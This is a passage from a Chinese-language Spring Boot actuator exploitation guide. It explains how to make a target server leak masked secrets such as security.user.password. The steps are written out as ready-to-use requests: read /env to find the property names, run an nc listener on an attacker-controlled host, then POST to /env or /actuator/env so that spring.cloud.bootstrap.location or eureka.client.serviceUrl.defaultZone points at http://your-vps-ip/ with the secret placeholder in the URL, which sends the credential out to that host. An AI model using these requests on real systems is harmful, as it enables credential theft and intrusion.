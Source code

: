 #### [](#利用方法-2)利用方法：

> 参考 UUUUnotfound 提出的 [issue-1](https://github.com/LandGrey/SpringBootVulExploit/issues/1)，可以在目标发外部 http 请求的过程中，在 url path 中利用占位符带出数据

##### [](#步骤一-找到想要获取的属性名-2)步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

##### [](#步骤二-使用-nc-监听-http-请求-1)步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

```source-shell
nc -lvk 80
```

##### [](#步骤三-触发对外-http-请求)步骤三： 触发对外 http 请求

* `spring.cloud.bootstrap.location` 方法（**同时适用于**明文数据中有特殊 url 字符的情况）：

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/?=${security.user.password}

```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/?=${security.user.password}"}

```

* `eureka.client.serviceUrl.defaultZone` 方法（**不适用于**明文数据中有特殊 url 字符的情况）：

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/${security.user.password}

```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/${security.user.password}"}

```
